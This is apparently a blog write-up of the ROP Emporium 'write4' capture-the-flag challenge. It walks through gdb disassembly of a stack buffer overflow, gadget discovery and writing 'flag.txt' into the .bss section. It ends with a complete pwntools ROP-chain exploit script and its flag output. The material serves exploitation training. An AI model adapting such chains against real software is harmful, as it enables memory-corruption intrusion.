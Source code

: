 ```yaml
---
title: RopEmporium - Write4
date: 2022-08-17 23:20:05
tags: [ropemporium, rop]
---
```


Goal of the challenge is understanding how to abuse readable and writable memory regions in binary files.The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

<!-- more -->

> Our first foray into proper gadget use.
> A useful function is still present, but we'll need to write a string into memory somehow.

First we check the binary protections enabled on the binary. Only **NX** (Not executable) protection is enabled on the binary according to `checksec` binary utility as shown in the image below.

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary, we will use gdb debugger to analyze the functions. For analysis of our binary we start at the `main` function which is the entrypoint of our execution.

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400607 <+0>:	push   rbp
   0x0000000000400608 <+1>:	mov    rbp,rsp
   0x000000000040060b <+4>:	call   0x400500 <pwnme@plt>
   0x0000000000400610 <+9>:	mov    eax,0x0
   0x0000000000400615 <+14>:	pop    rbp
   0x0000000000400616 <+15>:	ret
End of assembler dump.
(gdb)
```

From the above, the main function only calls `pwnme` function which looks interesting to us. Disassemble the **pwnme** function as shown below. `pwnme@plt` is used for referencing `pwnme` real address. Next step is analyzing `libwrite4.so` library using gdb.

```nasm
vx@archie:write4$ gdb -q libwrite4.so
Reading symbols from libwrite4.so...
(No debugging symbols found in libwrite4.so)
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000000008aa <+0>:	push   rbp
   0x00000000000008ab <+1>:	mov    rbp,rsp
   0x00000000000008ae <+4>:	sub    rsp,0x20
   0x00000000000008b2 <+8>:	mov    rax,QWORD PTR [rip+0x200727]        # 0x200fe0
   0x00000000000008b9 <+15>:	mov    rax,QWORD PTR [rax]
   0x00000000000008bc <+18>:	mov    ecx,0x0
   0x00000000000008c1 <+23>:	mov    edx,0x2
   0x00000000000008c6 <+28>:	mov    esi,0x0
   0x00000000000008cb <+33>:	mov    rdi,rax
   0x00000000000008ce <+36>:	call   0x790 <setvbuf@plt>
   0x00000000000008d3 <+41>:	lea    rdi,[rip+0x106]        # 0x9e0
   0x00000000000008da <+48>:	call   0x730 <puts@plt>
   0x00000000000008df <+53>:	lea    rdi,[rip+0x111]        # 0x9f7
   0x00000000000008e6 <+60>:	call   0x730 <puts@plt>
   0x00000000000008eb <+65>:	lea    rax,[rbp-0x20]
   0x00000000000008ef <+69>:	mov    edx,0x20
   0x00000000000008f4 <+74>:	mov    esi,0x0
   0x00000000000008f9 <+79>:	mov    rdi,rax
   0x00000000000008fc <+82>:	call   0x760 <memset@plt>
   0x0000000000000901 <+87>:	lea    rdi,[rip+0xf8]        # 0xa00
   0x0000000000000908 <+94>:	call   0x730 <puts@plt>
   0x000000000000090d <+99>:	lea    rdi,[rip+0x115]        # 0xa29
   0x0000000000000914 <+106>:	mov    eax,0x0
   0x0000000000000919 <+111>:	call   0x750 <printf@plt>
   0x000000000000091e <+116>:	lea    rax,[rbp-0x20]
   0x0000000000000922 <+120>:	mov    edx,0x200
   0x0000000000000927 <+125>:	mov    rsi,rax
   0x000000000000092a <+128>:	mov    edi,0x0
   0x000000000000092f <+133>:	call   0x770 <read@plt>
   0x0000000000000934 <+138>:	lea    rdi,[rip+0xf1]        # 0xa2c
   0x000000000000093b <+145>:	call   0x730 <puts@plt>
   0x0000000000000940 <+150>:	nop
   0x0000000000000941 <+151>:	leave
   0x0000000000000942 <+152>:	ret
End of assembler dump.
(gdb)
```

From the assembly code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. `memset` libc function is used to overwrite any values that have the memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer in the stack.

![](/images/ropemporium/stack.png)

Therefore the next interesting libc function is **read** function, which reads user input and stores results in the specified buffer.From the above disassembled code, we are reading 0x200 bytes from the user and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);  // read(0,[rbp-0x20], 0x200)
```

From the vulnerability,we can exploit it in order to abuse the control flow of the program by controlling the value of the return address.

From the authors hint, we need to look for an ELF section that is writable in order to write our target string.

> Perhaps the most important thing to consider in this challenge is where we're going to write our "flag.txt" string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose.

Opening the binary in radare2, we can check permissions of different sections using the command **iS** as shown in the image below.

![](/images/ropemporium/write4_where.png)

From the above we are able to determine the data and bss section are both readable and writable. Our target for the gadgets is to write our string to the **bss** section. Therefore we need to get memory address of **.bss** area.

From the authors challenge hint, we need to disassemble `usefulFunction` to understand how it works.

> Important!: A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

`usefulFunction` function is responsible for calling **print_file** function as hinted by the author.

![](/images/ropemporium/write4_useful.png)

From the analysis of the above function, we can determine we are passing a string file name called **"nonexistent"** to the print_file function. The content of the arguments passed to the print_file function will be printed out to the user. Our goal is to pass our string of interest **flag.txt** to the the print_file function.

From the disassembly of the binary we have another interesting function called **usefulGadgets**.

```nasm
(gdb) disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:	ret
   0x000000000040062c <+4>:	nop    DWORD PTR [rax+0x0]
End of assembler dump.
(gdb)
```

The gadget from the above assembly code will enable us to write content of `r15` register to memory address [r14]. Next step is to look for gadgets that will enable us to control both **r14** and **r15** register values.

For building our chain, we need to understand the calling conventions of AMD64 ABI.The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.In x86 assembly **pop** instruction is used for putting value to the memory address, therefore we look for a pop gadget that will enable to control both `r14` and `r15`.

```nasm
  0x0040068f                 5d  pop rbp
  0x00400690               415e  pop r14
  0x00400692               415f  pop r15
  0x00400694                 c3  ret
```

Example of the above gadget, we have a pop rbp, pop r14, pop 15 ret instruction gadget. This gadget will enable us to control the desired registers. Because we don't need the rbp register, for our ropchain, we take the address pointed by pop14 **0x00400690**. This is possible because rop gadgets are set of instructions that end with **ret**.

From the disassembly of `usefulgadgets` function we know register r14 points to a memory region we want to write to. Therefore our strategy is to set the value of r14 register to be the address pointer of **.bss** section of ELF and r15 register to be the value we want to write to **.bss** section.

> Hopefully you've realized that ROP is just a form of arbitrary code execution and if we get creative we can leverage it to do things like write to or read from memory. The question we need to answer is: what mechanism are we going to use to solve this problem? Is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.

```nasm
  0x00400628             4d893e  mov qword [r14], r15
  0x0040062b                 c3  ret
```

Therefore, two gadgets will enable us to set the register values of `r14` and `r15` and copy the values of r15 to the memory region defined by r14.

Last is a find a gadget that will aid passing of an argument to the `print_file` function. Because the function takes one argument, we look for a `pop rdi ret` instruction

```nasm
  0x00400693                 5f  pop rdi
  0x00400694                 c3  ret
```

Now we have three separate rop gadgets, which we can chain them together to get a fully working rop chain. This chain will enable us to read the file content of the **flag.txt** and display output to the console.

A fully working ropchain exploit code of the challenge is,

```python
import pwn

pwn.context.arch = "amd64"
pwn.context.encoding ="latin-1"
pwn.warnings.simplefilter("ignore")
io = pwn.process('./write4')

bss_area = pwn.p64(0x00601038)
pop_r14_r15 = pwn.p64(0x00400690)
pop_rdi = pwn.p64(0x00400693)
mov_r14_r15 = pwn.p64(0x00400628)
print_file_addr = pwn.p64(0x0000000000400510)

payload = b"A" * 32 #fill the buffer
payload += b"B" *8  #overwrite the base pointer
payload += pop_r14_r15
payload += bss_area
payload += b"flag.txt"
payload += mov_r14_r15
payload += pop_rdi
payload += bss_area
payload += print_file_addr

io.writeafter('>', payload)

pwn.info(io.recvall().decode())
```

Successful execution of our exploit, will display a success flag.

```bash
vx@archie:write4$ python3 x.py
[+] Starting local process './write4': pid 7275
[+] Receiving all data: Done (45B)
[*] Process './write4' stopped with exit code -11 (SIGSEGV) (pid 7275)
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
```
